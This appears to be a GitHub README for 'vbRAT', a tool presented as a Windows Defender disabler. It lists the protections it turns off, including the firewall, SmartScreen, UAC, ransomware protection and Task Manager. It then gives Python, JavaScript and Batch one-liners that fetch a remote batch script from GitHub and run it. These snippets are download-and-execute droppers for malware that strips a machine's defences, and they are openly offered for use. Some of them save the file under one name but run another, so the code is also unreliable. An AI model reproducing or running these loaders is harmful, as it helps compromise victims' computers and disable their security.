 # vbRAT


---
## Defender disabler 

---
## disable defender 
 -  PUAProtection 
 -  Automatic Sample Submission
 -  Windows FireWall
 -  Windows Smart Screen(Permanently)
 -  Disable Quickscan
 -  Add exe file  to exclusions in defender settings
 -  Disable Defender Notification (Added Recently)
 -  Disable UAC(Reboot Required)
 -  Disable Ransomware Protection
 -  Disable TaskManager
 -  Disable registry etc..
---


- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('vbrat.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('demo.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('vbrat.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/4ksr/vbRAT/main/vbrat.bat "vbrat.bat"
start vbrat.bat
```

